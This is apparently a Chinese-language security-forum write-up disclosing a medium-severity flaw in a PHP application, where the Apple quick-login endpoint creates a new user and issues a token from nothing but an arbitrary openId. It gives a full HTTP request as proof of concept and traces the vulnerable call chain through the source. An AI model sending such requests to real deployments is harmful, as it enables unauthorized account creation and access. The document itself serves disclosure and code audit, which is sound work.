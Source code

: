 【中危】任意用户注册（apple快捷登陆）
---------------------

### 漏洞详情

新建用户的方式有很多，其中apple快捷登陆，没有进一步确认用户身份，默认不开启强制手机号注册，导致只需要提供 openId 就能创建新用户。

### 漏洞复现

对`http://localhost:45600/api/apple_login`发起请求，修改`openId`为随机数值。

```php
POST /api/apple_login HTTP/1.1
Host: localhost:45600
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
Accept: application/json, text/plain, */*
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
sec-ch-ua-platform: "Windows"
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/json;charset=UTF-8
Content-Length: 28

{"openId":"asdasdasdqweqwe"}
```

发送请求包后即可获得Token。

![document_image_rId78.png](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-42bff6d3f4942e62a9b65bdb22050f5356d28322.png)

使用 Token 即可登录账户。例如查看用户身份信息：

![document_image_rId79.png](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-ff4b325e41dba66d59fc5c8b079f265560fc04fd.png)

### 漏洞审计

利用链路：

```php
api/controller/v1/LoginController.php appleLogin 444行
    services/wechat/WechatServices.php appAuth 372行
        services/wechat/WechatUserServices.php wechatOauthAfter 272行
            services/user/UserServices.php setUserInfo 122行
```

`appleLogin`函数位于`api/controller/v1/LoginController.php`第444行。从POST请求中获取4个参数，其中`phone`和`captcha`是同时使用的，允许为空。`$email`为空会自动生成，所以我们只需要传递`openId`即可。  
`openId`也可以为空，但为了随机生成新用户，需要保证`openId`的随机性。

